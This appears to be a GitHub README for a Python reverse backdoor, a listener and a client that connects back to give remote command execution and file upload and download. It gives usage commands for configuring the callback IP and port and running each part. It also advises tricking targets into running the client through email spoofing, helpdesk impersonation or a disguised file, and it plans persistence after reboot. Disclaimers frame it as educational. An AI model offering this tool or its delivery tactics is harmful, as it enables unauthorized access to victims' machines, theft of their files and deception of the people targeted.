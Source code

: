 # Python Reverse Backdoor

A Python-based reverse backdoor consisting of two components: a listener (server) and a reverse backdoor (client). Designed for educational purposes to demonstrate socket programming and remote command execution.
This program will run if both machines have a python interperter installed. 
You will have to use social engineering tactics to get the target to execute the reverse_backdoor python file on their computer. This can be done by using email spoofing, pretending to be a helpdesk techincian, or some other elaborate way. 
It is also possible to package the python file into an executable file that will run on a Windows machine without a python interpreter. Something to work on in the future. 

**Disclaimer**: Use this tool only in legal, authorized environments. Unauthorized access to computer systems is illegal and unethical. The developers assume no liability for misuse.

---

## Features

### Listener (Host)
- Listens for incoming connections from the target.
- Execute remote commands on the target machine.
- Upload/download files to/from the target.
- Persistent connection until manually terminated.

### Reverse Backdoor (Target)
- Connects back to the listener's IP and port.
- Supports commands: `cd`, `download`, `upload`, `exit`, and system commands (e.g., `ls`, `whoami`).
- Encodes files in base64 for transfer.

---

## Prerequisites

- Python 3 installed on both host and target machines.
- Host machine must allow incoming connections on the specified port.
- The target machine must execute the backdoor script.

---

## Usage

### 1. Configure the Backdoor
Edit `reverse_backdoor.py` to point to the listener's IP and port:
```bash
my_backdoor = Backdoor("LISTENER_IP", LISTENER_PORT)  # Replace with your listener's IP/port
```
### 2. Run the Listener
On the host machine:

```bash
python3 listener.py 0.0.0.0 4444
```
- 0.0.0.0 binds to all network interfaces.
- Ensure the port (e.g., 4444) is open and accessible.

### 3. Transfer the Backdoor to the Target
Use social engineering tactics (e.g., disguising the file as a legitimate program) to run reverse_backdoor.py on the target. Example:
```bash
python3 reverse_backdoor.py
```

### 4. Execute Commands
Once connected, use these commands in the listener:
- System Commands
```bash
>> ls -la
>> whoami
```

- Change Directory
```bash
>> cd /path/to/directory
```

- Download File
```bash
>> download file.txt
```

- Upload File
```bash
>> upload /path/to/local/file.txt
```

- Exit
```bash
>> exit
```

## File Structure
- listener.py
Run on the host machine. Listens for incoming connections and sends commands.

- reverse_backdoor.py
Run on the target machine. Connects to the listener and executes commands.

## Important Notes
🔒 Encode/Decode: Files are base64-encoded during transfer to avoid corruption.

⚠️ Firewall: Disable firewalls or configure port forwarding if connections fail.

🛑 Ethics: Obtain explicit permission before testing on any network or device.

## Future Improvements
- Convert reverse_backdoor.py into a standalone executable (e.g., .exe for Windows) using PyInstaller.

- Implement encryption for secure command transmission.

- Add persistence techniques to maintain access after reboot.

- Improve error handling and logging.

# Legal Disclaimer
#### This project is for educational purposes only. Unauthorized access to computer systems is illegal. The developers are not responsible for misuse. Ensure compliance with all applicable laws and obtain proper authorization before using this tool.
